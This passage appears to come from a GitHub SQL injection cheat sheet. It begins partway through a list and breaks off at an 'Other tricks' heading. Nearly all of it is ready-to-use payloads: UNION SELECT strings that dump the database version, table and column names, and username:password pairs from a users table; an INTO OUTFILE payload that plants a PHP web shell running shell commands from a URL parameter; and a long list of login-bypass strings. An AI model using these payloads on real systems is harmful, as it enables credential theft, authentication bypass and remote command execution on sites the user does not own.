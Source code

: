     ```
    ?id=1 union select 1,2,3,4,version(),6,7,8,9
    ```
*   Get all tables

    ```
    ?=1 union select 1,2,3,4,table_name,6,7,8,9 from information_schema.tables
    ```
*   Get all values from a specific column:

    ```
    ?id=1 union select 1,2,3,4,column_name,6,7,8,9 from information_schema.columns where table_name = 'users'
    ```
*   Get username and password with a delimiter:

    ```
    id=1 union select 1,2,3,4,concat(name,0x3a,password),6,7,8,9 FROM users
    ```
*   Getting a shell

    ```
    ?id=1 union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6,7,8,9 into OUTFILE 'c:/xampp/htdocs/cmd.php'
    ```
* Non interactive shell:
* echo 'use mysql; select \* from user;' | mysql -uroot -h127.0.0.1

SQLI login bypass

* ```
  -'
  ' '
  '&'
  '^'
  '*'
  ' or ''-'
  ' or '' '
  ' or ''&'
  ' or ''^'
  ' or ''*'
  "-"
  " "
  "&"
  "^"
  "*"
  " or ""-"
  " or "" "
  " or ""&"
  " or ""^"
  " or ""*"
  or true--
  " or true--
  ' or true--
  ") or true--
  ') or true--
  ' or 'x'='x
  ') or ('x')=('x
  ')) or (('x'))=(('x
  " or "x"="x
  ") or ("x")=("x
  ")) or (("x"))=(("x
  ```

## Other tricks

  ```